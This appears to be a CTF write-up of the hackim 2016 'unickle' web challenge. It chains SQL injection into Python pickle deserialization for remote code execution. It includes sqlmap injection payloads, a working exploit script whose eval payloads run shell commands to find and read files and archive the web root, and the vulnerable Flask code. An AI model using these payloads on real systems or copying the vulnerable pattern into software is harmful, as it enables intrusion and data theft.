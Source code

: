 ```yaml
---
layout: post
title:  "hackim 2016: unickle (web 200)"
author: f0rki
categories: writeup
tags: [cat/web, lang/sql, lang/python, tech/pickle]
---
```


* **Category:** web
* **Points:** 200
* **Description:**

> OSaaS is the new trend for 2016! Store your object directly in the cloud. Get
> rid of the hassle of managing your own storage for object with Osaas. Unickle
> currently offers a beta version that demonstrates how OSaaS will make the
> internet a better place... One object at a time!!

## Write-up

So there isn't much to look at here. It displays some values and you can
restrict the displayed values to a category with the `?cat=X` parameter. After
some fiddling and not getting anywhere I decided to let `sqlmap` loose on the
site.

```
$ python2 sqlmap.py --level=5 --risk=3 --method=get -a \
    -u 'http://54.84.124.93/?cat=2' --output-dir=/tmp/unickle/

sqlmap identified the following injection point(s) with a total of 160 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=2 AND 7804=7804

    Type: AND/OR time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: cat=2 AND 9875=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: cat=2 UNION ALL SELECT 'qxvqq'||'HuGRpkqXfbsleivzlVQsmTJGEQszicEaMDqmwMEK'||'qbvzq',NULL,NULL,NULL-- -
---

[...]

Table: db_object
[4 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| tcat_id | INTEGER |
| tid     | INTEGER |
| tname   | VARCHAR |
| tvalue  | VARCHAR |
+---------+---------+
```

sqlmap didn't do so well on dumping the actual tables, probably because there
were some non-printable characters in there. At this point I was kind of
annoyed and switched to another challenge. Fortunately a fellow LosFuzzys
member didn't want to realy on sqlmap and did the injection by hand, which
yielded better results. One can abuse the SQL injection by using `?cat=4 union
select ...` as the parameter. We can get the table schema of the `db_object`
table.  This is the table the objects, which are displayed, are selected from.
Let's look at one row of the database.

```
id | name     | value                                                               | cat_id
--------------------------------------------------------------------------------------------
2  | Object 2 | cvulnerableBoxq)q}qXnameqX        Magic Boxqsb. | 2
```

We can see that value has a very strange format and doesn't quite match what we
see as output. So there is apparently some transformation happeing. It turns
out that this is [pickled](https://docs.python.org/2/library/pickle.html) data.
Of course as we know from countless other CTFs, pickle is evil, as it allows
arbitrary code execution as part of the deserialization. So we can use the SQL
injection to get the application to load our input with pickle, which gives us
code execution on the server :) Kindly enough we also get the deserialized
object as string, so we can use `subprocess.check_output` to get the output of
arbitrary commands. I used the following script to exploit the sqli/pickle
vulnerabilities. I used several shellcodes. First using a simple computation to
prove we have code execution. Then I searched for the flag using the `find`
command and read it out using `cat`. I also dumped the whole `/var/www/`
directory just to be sure ;)


```python
from __future__ import print_function

import requests
import sys
import pickle
from urllib import unquote

# test shellcode
#SHELLCODE = "42 + 1"
# fetch the whole webserver dir :)
#SHELLCODE = "str(__import__(\"subprocess\").check_output(\"tar czf /tmp/src.tgz /var/www/; cat /tmp/src.tgz | base64\", shell=True))"  # NOQA
# find the flag
#SHELLCODE = "str(__import__(\"subprocess\").check_output(\"find / -name flag\", shell=True))"  # NOQA
# read the flag
SHELLCODE = "str(__import__(\"subprocess\").check_output(\"cat /var/www/flag\", shell=True))"  # NOQA


class Pwn(object):
    def __reduce__(self):
        return (eval, (SHELLCODE,))


pwn = Pwn()
sc = pickle.dumps(pwn)

if len(sys.argv) == 2 and sys.argv[1] == "--try":
    print("Executing shellcode:")
    print("-------")
    try:
        print(pickle.loads(sc))
    except Exception as e:
        print("exception", repr(e))
    print("\n-------")


print("Sending shellcode:")
print("-------")
print(sc)
print("-------")
sc = sc.replace("'", "\"")  # otherwise the sql query doesn't work
sqlipl = "4 union select 1,2,'{}',1337".format(sc)
print("#### sqli payload is")
print(sqlipl)
resp = requests.get("http://54.84.124.93/", params={"cat": sqlipl})
print("#### URL is")
print(resp.url)
print(unquote(resp.url))
print("#### response -", resp.status_code)
#print(resp.text)
# very dirty parsing ;)
print(resp.text.split("\n")[38].replace("\\n", "\n").strip())
```

The flag was `flag{OSaaS_with_union_and_tickle_trend_it_is!}`

The whole thing was a flask application and the vulnerable code is this:

```python
@application.route("/", methods=['GET'])
def index():
  sql = "SELECT * FROM db_object"
  if request.args != [] and request.args.get('cat') != None:
    sql = "SELECT * FROM db_object where cat_id="+request.args.get('cat')  # SQL injection here
  result = db.engine.execute(sql)
  objects = []
  for row in result:
    val = row[2]
    if row[2]!= None:
      try:
        print(row[2])
        val = pickle.loads(row[2].encode(encoding='ISO-8859-1'))           # pickle deserialization vulnerability here
      except Exception as e:
        val = e
    objects.append([row[0],row[1],val,row[3]])
  return render_template('index.html', objects=objects)
```
